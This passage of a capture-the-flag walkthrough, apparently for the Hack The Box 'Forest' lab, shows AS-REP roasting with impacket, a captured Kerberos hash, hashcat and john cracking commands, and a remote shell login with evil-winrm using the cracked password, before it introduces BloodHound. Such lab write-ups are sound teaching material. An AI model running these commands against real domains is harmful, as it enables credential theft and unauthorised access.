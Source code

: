 Once we have domain users. Let’s give it a shot to `GetNPUsers.py`, which attempts to list and get TGTs for users that have the property “Do not require Kerberos preauthentication” set. You can find the nice explaination about impacket [here](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/).

```python
python GetNPUsers.py htb.local/ -usersfile /root/bof_dir/forest_htb/nullinux_users.txt -format hashcat -outputfile forest_
hash.txt

OR

python GetNPUsers.py -request -no-pass -k -dc-ip 10.10.10.161 htb.local/svc-alfresco -format john


$krb5asrep$23$svc-alfresco@HTB.LOCAL:201cf093ea3a7735820463dc54e177f2$c31453bc5a113c12c4cf7c21ad01f39d7dc8aa4eb57417c99ea8136cf85d6616ca883e33166e0d7f0d68d52a298898dc87903e57499198747ad1a9f5855db95fd56166fea563e1f47d698ef3467e85dad9ab106fc195908e9376b0de874719f77e380860ae38435748854b16c66df3448de7d4487bb271641aec7baa26e5178e978223b5dc5e00c8d23f247775a6109f41a65fdd4a2f2bb542b204340fc83b6a8f358af824998b05aef85ff1ca447763925ce8b8f9c44c01bb9a34c75efc3f6d76a74c820d642f853da538cdd6b29336f3ef49da770c9e06d646ecb47822b78276c693916fef
```

```text
./hashcat.exe -a 0 -m 18200 kerb.hash wordlists/output.txt -O --force

OR

 john --wordlist=/usr/share/wordlists/rockyou.txt ~/bof_dir/forest_htb/john_hash.txt
```

From nmap scan we know that there are LDAP, kerberos, and a kpasswd service, in addition to SMB services. This suggests that we just scanned a domain controller. We also have 5985 open, so we can use that to get a shell with evil-winrm eventually.

```cmd
evil-winrm -i 10.10.10.161 -u svc-alfresco -P 5985 -p s3rvice
```

![alt text](/static/images/2019/04/forest/forest_evil_login.png "testing")

## Step 3. Privilege Escalation

Great, we owned user! Now, let's get working on root. To do so, I'm going to use a very useful tool in AD and that is a bit hard to understand at first: BloodHound.

This software uses graph theory in order to analyze the relations between AD objects, and find interesting attack paths. It relies on a neo4j SGBD, so you might want to install this utility before using BloodHound.
Installation link can be found [here](https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/).
